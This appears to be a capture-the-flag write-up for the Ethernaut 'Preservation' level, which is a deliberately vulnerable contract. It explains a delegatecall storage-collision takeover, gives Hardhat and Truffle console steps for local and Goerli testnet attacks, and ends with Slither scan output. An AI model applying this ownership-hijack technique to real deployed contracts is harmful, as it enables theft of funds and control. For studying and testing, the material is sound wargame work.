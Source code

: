 # Preservation

[Preservation](https://ethernaut.openzeppelin.com/level/0x2754fA769d47ACdF1f6cDAa4B0A8Ca4eEba651eC)

1. `Preservation` delegates calls to `LibraryContract`. 
1. Storage for `Preservation` and `LibraryContract` overlaps.
1. Calling `LibraryContract::setTime()` overwrites an address held in `Preservation`.
1. Overwriting allow us to replace an instance of `LibraryContract` by a malicious contract.
1. The malicious contract is then able to overwrite the owner of `Preservation`.

<BR />


Contract: <BR />
``0xFF3eC9eb96183C2B656588ddD8D80f243c6cA220``

<BR />

## Test Attack

```BASH
npx hardhat compile
npx hardhat console
```

```JS
accounts = await ethers.getSigners()
accounts[0].address

LibCtrFactory = await ethers.getContractFactory("LibraryContract")
libctr = await LibCtrFactory.deploy()
libctr.address

PreFactory = await ethers.getContractFactory("Preservation")
pre = await PreFactory.deploy(libctr.address, libctr.address)

AttackFactory = await ethers.getContractFactory("Attack")
attack = await AttackFactory.deploy()

// Get initial Owner and library address
await pre.owner()
await pre.timeZone1Library()    
libctr.address

// Change library to attack contract and confirm change
await pre.setFirstTime(attack.address)
await pre.timeZone1Library()
attack.address
libctr.address

// Change owner to whatever we want...
await pre.owner()
await pre.setFirstTime(attack.address)
await pre.owner()
await pre.timeZone1Library()
attack.address
```

<BR />


## Live Attack

Instance Address: <BR />
``0xFF3eC9eb96183C2B656588ddD8D80f243c6cA220``


Attack Contract Address: <BR />
``0xA45bcbb0CeB2f15434fb1F4675151FDa8786D9Ca``


```BASH
npx hardhat compile
npx hardhat console --network goerli
```

```JS
accounts = await ethers.getSigners()
accounts[0].address

PreFactory = await ethers.getContractFactory("Preservation")
pre = await PreFactory.attach('0xFF3eC9eb96183C2B656588ddD8D80f243c6cA220')

AttackFactory = await ethers.getContractFactory("Attack")
attack = await AttackFactory.deploy()

// Get initial Owner and library address
await pre.owner()
await pre.timeZone1Library()    

// Change library to attack contract and confirm change
await pre.setFirstTime(attack.address)
await pre.timeZone1Library()
attack.address

// Change owner to whatever we want...
// Failing with out-of-gas!
await pre.owner()
await pre.setFirstTime(accounts[0].address) // FAILED!
await pre.timeZone1Library()
await pre.owner()

accounts[0].address
```

<BR />

## Live Attack Try 2

Since the attack was failing out of gas, and because of the problems in Hardhat we simply switch to truffle (``13_Preservation_Truffle``) and complete the attack as follows:

```BASH
truffle console --network goerli
```

```JS
sender = accounts[5]

pre    = await Preservation.at("0xFF3eC9eb96183C2B656588ddD8D80f243c6cA220")
attack = await Attack.at("0xA45bcbb0CeB2f15434fb1F4675151FDa8786D9Ca")

await pre.owner()
await pre.timeZone1Library()    
attack.address

await pre.setFirstTime(sender, {from: sender})
await pre.owner()
```

<BR />


## Others

When setting up Hardhat we ended up with a problem becuase of the Ethers version.
The problem was avoided by:

1. Delete node_modules
1. Copy over ``package.json`` and ``package-lock.json`` from ``11_GatekeeperTwo``
1. ``npm install``

Configuration that works:

```JS
// > ethers.version
// 'ethers/5.7.2'

LibCtrFactory = await ethers.getContractFactory("LibraryContract")
libctr = await LibCtrFactory.connect(accounts[0]).deploy()
libctr.address
```

Problematic configuration:

```JS
// > ethers.version
// '6.5.1'

LibCtrFactory = await ethers.getContractFactory("LibraryContract")
libctr = await LibCtrFactory.connect(accounts[0]).deploy()
libctr.target
```

<BR />

## Vulnerability Testing Tools


<BR />

### Slither

```BASH
solc-select use 0.8.0
slither ./contracts/Preservation.sol  --hardhat-ignore-compile  --exclude-optimization
```

```
Preservation.setFirstTime(uint256) (contracts/Preservation.sol#22-24) uses delegatecall to a input-controlled function id
        - timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature,_timeStamp)) (contracts/Preservation.sol#23)
Preservation.setSecondTime(uint256) (contracts/Preservation.sol#27-29) uses delegatecall to a input-controlled function id
        - timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature,_timeStamp)) (contracts/Preservation.sol#28)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#controlled-delegatecall

Preservation.setFirstTime(uint256) (contracts/Preservation.sol#22-24) ignores return value by timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature,_timeStamp)) (contracts/Preservation.sol#23)
Preservation.setSecondTime(uint256) (contracts/Preservation.sol#27-29) ignores return value by timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature,_timeStamp)) (contracts/Preservation.sol#28)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#unchecked-low-level-calls

Preservation.constructor(address,address)._timeZone1LibraryAddress (contracts/Preservation.sol#15) lacks a zero-check on :
                - timeZone1Library = _timeZone1LibraryAddress (contracts/Preservation.sol#16)
Preservation.constructor(address,address)._timeZone2LibraryAddress (contracts/Preservation.sol#15) lacks a zero-check on :
                - timeZone2Library = _timeZone2LibraryAddress (contracts/Preservation.sol#17)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#missing-zero-address-validation

Pragma version^0.8.0 (contracts/Preservation.sol#2) allows old versions
solc-0.8.0 is not recommended for deployment
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity

Low level call in Preservation.setFirstTime(uint256) (contracts/Preservation.sol#22-24):
        - timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature,_timeStamp)) (contracts/Preservation.sol#23)
Low level call in Preservation.setSecondTime(uint256) (contracts/Preservation.sol#27-29):
        - timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature,_timeStamp)) (contracts/Preservation.sol#28)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#low-level-calls

Parameter Preservation.setFirstTime(uint256)._timeStamp (contracts/Preservation.sol#22) is not in mixedCase
Parameter Preservation.setSecondTime(uint256)._timeStamp (contracts/Preservation.sol#27) is not in mixedCase
Constant Preservation.setTimeSignature (contracts/Preservation.sol#13) is not in UPPER_CASE_WITH_UNDERSCORES
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#conformance-to-solidity-naming-conventions

Variable Preservation.constructor(address,address)._timeZone1LibraryAddress (contracts/Preservation.sol#15) is too similar to Preservation.constructor(address,address)._timeZone2LibraryAddress (contracts/Preservation.sol#15)
Variable Preservation.timeZone1Library (contracts/Preservation.sol#7) is too similar to Preservation.timeZone2Library (contracts/Preservation.sol#8)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#variable-names-are-too-similar

Preservation.storedTime (contracts/Preservation.sol#10) is never used in Preservation (contracts/Preservation.sol#4-30)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#unused-state-variable
./contracts/Preservation.sol analyzed (1 contracts with 76 detectors), 16 result(s) found
```
